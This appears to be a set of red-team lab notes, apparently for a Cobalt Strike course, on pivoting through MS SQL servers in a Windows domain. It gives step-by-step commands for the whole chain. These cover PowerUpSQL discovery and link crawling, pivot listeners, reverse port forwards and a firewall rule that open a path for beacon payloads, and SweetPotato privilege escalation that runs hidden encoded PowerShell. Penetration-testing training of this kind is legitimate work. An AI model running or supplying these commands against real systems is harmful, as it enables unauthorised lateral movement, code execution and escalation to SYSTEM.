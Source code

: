 # Use PowerUpSQL, but before.. import it! 
```powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1```

Find MS SQL Servers
```powershell Get-SQLInstanceDomain```
It works by searching for SPNs that begin with MSSQL*.
You may also search the domain for groups that sound like they may have access to database instances (for example, a "SQL Admins" group).

Test whether or not we can connect to the database
```powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433"```
:triangular_flag_on_post: Try both with simple user and SYSTEM. It could give different results! 

Get more information about the instance
```powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"```
:triangular_flag_on_post:  If there are multiple SQL Servers available, you can chain these commands together to automate the data collection.
```powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo```

There are several options for issuing queries against a SQL instance.  
- Get-SQLQuery from PowerUpSQL ```powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"```
- Using msqlclient.py. For this you will need to use proxichain and start SOCKS on the beacon **as SYSTEM**
- Windows GUI for sql via proxifier.

The idea here is to move from the workstation you exploited to an SQL instance. You should be both simple user and a SYSTEM user in order to be able to apply firewall rules.
This is because there is a SQL command length limit that will prevent you from sending large payloads directly in the query. Since the SQL server also cannot reach the team server directly, a reverse port forward can be used to deliver it.
The rev port forward require to open the port on the firewall and only SYSTEM users can do this. 

Starting from being the simple user, create a **pivot listner**. Just use a port you are sure is not already used and leave all the rest as it is.
When you'll encode the payload that need to be linked to the pivot listner just created, you'll need to change the port to 8080 and the IP should be the one of the workstation. (wkstn-2 in our case)
As System we'll need do the reverse port forward with ```rportfwd 8080 127.0.0.1 80``` and create the right rule in the firewall ```powershell New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080```

This will spawn a beacon on the SQL system. 

From there we can see if this system is linked to another. 
```powershell Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"```
Let's say we are in a SQL instance 2 and we see it is linked to another SQL instance 1. To execute a shell command on SQL-1 we we'll need to recreate the chain used previously. 
Starting from being the SQL user on SQL 2, create a **pivot listner**. Just use a port you are sure is not already used and leave all the rest as it is.
When you'll encode the payload it needs to be linked to the pivot listner just created, you'll need to change the port to 8080 and the IP should be the one of the SQL 2.
We'll need to do the reverse port forward with ```rportfwd 8080 127.0.0.1 80``` and this will spawn a beacon on the SQL 1 system. 

In this way I will probably become simple user on SQL 1 system since we cannot be a local admin directly. In order to escalate privileges and become SYSTEM a strategy is to force a SYSTEM service to authenticate to a rogue service that the attacker creates.  This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.

For this we can use SweetPotato
SweetPotato has a collection of these various techniques which can be executed via Beacon's execute-assembly command.

```execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <encoded command>"
The listener you need to create is a TCP listener bind to localhost on a port that is free at the moment. When you encode the web delivery, it should point to the system itself (SQL 1) and port must be 8080 since we are still exploiting the rev portforward.

